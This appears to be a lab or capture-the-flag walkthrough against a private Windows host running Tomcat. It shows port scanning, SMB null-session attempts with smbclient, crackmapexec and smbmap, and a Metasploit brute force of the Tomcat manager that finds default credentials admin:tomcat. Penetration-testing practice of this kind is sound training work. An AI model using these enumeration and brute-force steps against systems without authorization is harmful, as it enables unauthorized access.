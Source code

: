 # Scan the network and look for the ipaddress

![Screenshot from 2025-05-23 11-39-09](https://github.com/user-attachments/assets/d853c7c6-83cd-4f4b-a33a-04beb37b8fd1)

# ping the target

![Screenshot from 2025-05-23 11-39-21](https://github.com/user-attachments/assets/89b20baf-7cce-43e9-a63c-478e8ccd670e)


ttl  suggests it is a windows machine
# lets look for the open ports

![Screenshot from 2025-05-23 11-40-11](https://github.com/user-attachments/assets/77438708-e8b7-4dfe-83e4-04a13f6d0f38)

![Screenshot from 2025-05-23 11-54-18](https://github.com/user-attachments/assets/61b798b5-a7c0-4ef6-ace5-52795cb66caf)

# lets see what services are running and run some scripts against them

![Screenshot from 2025-05-23 11-57-56](https://github.com/user-attachments/assets/4407a8be-3bcd-4b90-a9be-a185686c6ca0)

![Screenshot from 2025-05-23 12-06-57](https://github.com/user-attachments/assets/8c006441-f34f-4d8d-a825-adc62bbb21bd)

![Screenshot from 2025-05-23 12-07-09](https://github.com/user-attachments/assets/35de2317-193f-44b2-aa0d-b5b069b14ba5)

# lets look up for some vulnerabilities

![Screenshot from 2025-05-23 11-57-46](https://github.com/user-attachments/assets/dff0d628-f193-4eba-8720-5cd8a937573a)

![Screenshot from 2025-05-23 12-09-13](https://github.com/user-attachments/assets/57e25747-8cd2-4e45-8e8a-ced4ae234365)

# lets try to map the smb


# check if you can bypass smb login and access the share
```
smbclient -NL 192.168.0.59                  
session setup failed: NT_STATUS_ACCESS_DENIED
```
```
crackmapexec smb 192.168.0.59 -u '' -p '' --shares
SMB         192.168.0.59    445    WAR              [*] Windows 10 / Server 2019 Build 19041 x64 (name:WAR) (domain:WAR) (signing:False) (SMBv1:False)
SMB         192.168.0.59    445    WAR              [-] WAR\: STATUS_INVALID_PARAMETER 
SMB         192.168.0.59    445    WAR              [-] Error enumerating shares: Error occurs while reading from remote(104)
                                
```
```
smbmap --no-banner -H 192.168.0.59
[\] Checking for open ports...                                                                     [*] Detected 1 hosts serving SMB
[|] Authenticating...                                                                              [*] Established 1 SMB connections(s) and 0 authenticated session(s)
[!] Something weird happened on (192.168.0.59) Error occurs while reading from remote(104) on line 1015
[/] Closing connections..                                                                          [-] Closing connections..                                                                          [\] Closing connections..                                                                          [|] Closing connections..                                                                          [/] Closing connections..                                                                          [-] Closing connections..                                                                                                                                                                             [*] Closed 1 connections
```

# lets look into the web server
```
http://192.168.0.59:8080/
```


![apche_tom_cat_war](https://github.com/user-attachments/assets/5b65365e-966f-4bb3-8a72-ff3c245ed3f4)


# lets try to bruteforce using the default credentials from the metasploit
```
 use 63
msf6 auxiliary(scanner/http/tomcat_mgr_login) > show options

Module options (auxiliary/scanner/http/tomcat_mgr_login):

   Name              Current Setting           Required  Description
   ----              ---------------           --------  -----------
   ANONYMOUS_LOGIN   false                     yes       Attempt to login with a blank username a
                                                         nd password
   BLANK_PASSWORDS   false                     no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                         yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                     no        Try each user/password couple stored in
                                                         the current database
   DB_ALL_PASS       false                     no        Add all passwords in the current databas
                                                         e to the list
   DB_ALL_USERS      false                     no        Add all users in the current database to
                                                          the list
   DB_SKIP_EXISTING  none                      no        Skip existing credentials stored in the
                                                         current database (Accepted: none, user,
                                                         user&realm)
   PASSWORD                                    no        The HTTP password to specify for authent
                                                         ication
   PASS_FILE         /usr/share/metasploit-fr  no        File containing passwords, one per line
                     amework/data/wordlists/t
                     omcat_mgr_default_pass.t
                     xt
   Proxies                                     no        A proxy chain of format type:host:port[,
                                                         type:host:port][...]
   RHOSTS                                      yes       The target host(s), see https://docs.met
                                                         asploit.com/docs/using-metasploit/basics
                                                         /using-metasploit.html
   RPORT             8080                      yes       The target port (TCP)
   SSL               false                     no        Negotiate SSL/TLS for outgoing connectio
                                                         ns
   STOP_ON_SUCCESS   false                     yes       Stop guessing when a credential works fo
                                                         r a host
   TARGETURI         /manager/html             yes       URI for Manager login. Default is /manag
                                                         er/html
   THREADS           1                         yes       The number of concurrent threads (max on
                                                         e per host)
   USERNAME                                    no        The HTTP username to specify for authent
                                                         ication
   USERPASS_FILE     /usr/share/metasploit-fr  no        File containing users and passwords sepa
                     amework/data/wordlists/t            rated by space, one pair per line
                     omcat_mgr_default_userpa
                     ss.txt
   USER_AS_PASS      false                     no        Try the username as the password for all
                                                          users
   USER_FILE         /usr/share/metasploit-fr  no        File containing users, one per line
                     amework/data/wordlists/t
                     omcat_mgr_default_users.
                     txt
   VERBOSE           true                      yes       Whether to print output for all attempts
   VHOST                                       no        HTTP server virtual host


View the full module info with the info, or info -d command.
```
```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS 192.168.0.59
RHOSTS => 192.168.0.59
msf6 auxiliary(scanner/http/tomcat_mgr_login) > exploit

[!] No active DB -- Credential data will not be saved!
[-] 192.168.0.59:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 192.168.0.59:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 192.168.0.59:8080 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 192.168.0.59:8080 - LOGIN FAILED: admin:root (Incorrect)
[+] 192.168.0.59:8080 - Login Successful: admin:tomcat
[-] 192.168.0.59:8080 - LOGIN FAILED: manager:admin (Incorrect)
```
We got our username and password
```
admin:tomcat
```

